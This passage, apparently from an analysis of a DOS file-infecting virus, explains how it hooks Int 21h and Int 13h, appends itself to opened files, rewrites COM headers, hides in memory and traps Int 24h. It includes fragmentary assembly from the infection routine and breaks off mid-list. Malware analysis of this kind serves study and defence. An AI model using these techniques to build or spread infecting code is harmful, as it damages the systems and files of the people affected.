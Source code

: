     -   The virus replaces the original interrupt vectors for Int 21h (DOS system calls) and Int 13h (low-level disk operations) with its own handlers.
    -   This allows it to intercept and control certain system operations.
```
; Setting new interrupt 21h
set_int_21h:    ...
                mov     word ptr [si-4], offset new_int_21h
                mov     word ptr [si-2], ax          ; Set our Int 21h

; Setting new interrupt 13h
                ...
                mov     word ptr [si-4], offset new_int_13h
                mov     word ptr [si-2], ax          ; Set our Int 13h

```
3.  **File Infection**:
    
    -   Upon file opening (via Int 21h, function 3Dh), the virus checks if the file is infected. If not, it infects it by appending its code.
    -   It also manipulates file attributes to hide its activity.
```
file_open:      call    infect_file                 ; Infection routine
                jmp     dword ptr cs:[old_int_21h]  ; Jump back to original Int 21h

infect_file:    ...
                mov     ax, 3d00h                    ; Open the file
                call    int_21h
                ...
                mov     ah, 40h                      ; Write the virus to the end of the file
                mov     cx, torero_size
                lea     dx, torero_start
                call    int_21h
                ...
                mov     ah, 40h                      ; Overwrite the file header to ensure virus execution
                mov     cx, 3
                lea     dx, com_header
                call    int_21h

```
4.  **Modification of Interrupt Vectors**:
    
    -   The virus modifies the interrupt vectors for system calls and disk operations, redirecting these calls to itself first.

5.  **Stealth Behavior**:
    
    -   The virus attempts to hide by modifying memory control block information and intercepting system calls to avoid detection.
6.  **Error Handling (Int 24h)**:
    
    -   The virus handles interrupt 24h, used for critical DOS errors, to prevent crashes or suspicious behavior.
7.  **Infection Routine**:
    